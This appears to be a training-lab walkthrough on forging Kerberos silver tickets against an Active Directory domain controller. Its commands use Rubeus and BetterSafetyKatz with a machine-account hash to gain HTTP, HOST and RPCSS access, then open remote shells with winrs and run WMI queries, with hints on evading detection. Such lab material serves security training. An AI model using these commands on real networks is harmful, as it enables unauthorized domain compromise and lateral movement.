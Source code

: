 # 🎫 Command execution on other DC via silver ticket on HTTP & WMI

From the information gathered in previous steps we have the hash for machine account of the domain controller (dcorp-dc$). Using the below command, we can create a Silver Ticket that provides us access to the HTTP service of DC

Please note that the hash of dcorp-dc$ (RC4 in the below command) may be different in the lab. You can also use aes256 keys in place of NTLM hash:

In our previous path we had to copy the hash of the machine account of Dcorp-DC. You can identify it as Dcorp-DC$

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption><p>9e81989d7ce17b7bbd3ac1e05dc94e57</p></figcaption></figure>

First we start by encoding "silver" then we throw in rubeus ->

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:9e81989d7ce17b7bbd3ac1e05dc94e57 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```

<figure><img src="../../.gitbook/assets/image (1116).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1117).png" alt=""><figcaption></figcaption></figure>

We can check if we go the correct service ticket but first we need to encode "klist":

We can check if we go the correct service ticket:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn%
```

<figure><img src="../../.gitbook/assets/image (1118).png" alt=""><figcaption></figcaption></figure>

And now we can enter the session:

```
winrs -r:dcorp-dc.dollarcorp.moneycorp.local cmd    
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

For accessing WMI, we need to create two tickets - one for HOST service and another for RPCSS. We could also use Rubeus for this but let's use BetterSafetyKatz. Note that we are not using any AV bypass technique here as this is just an example:

Let's start an elevated shell:

(don't forget to use hash of machine user)

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:9e81989d7ce17b7bbd3ac1e05dc94e57 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to Inject a ticket for RPCSS:

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:9e81989d7ce17b7bbd3ac1e05dc94e57 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

And if we check what tickets are present with `klist:`

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

And now we could tru to run WMI commands on the domain controller:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>
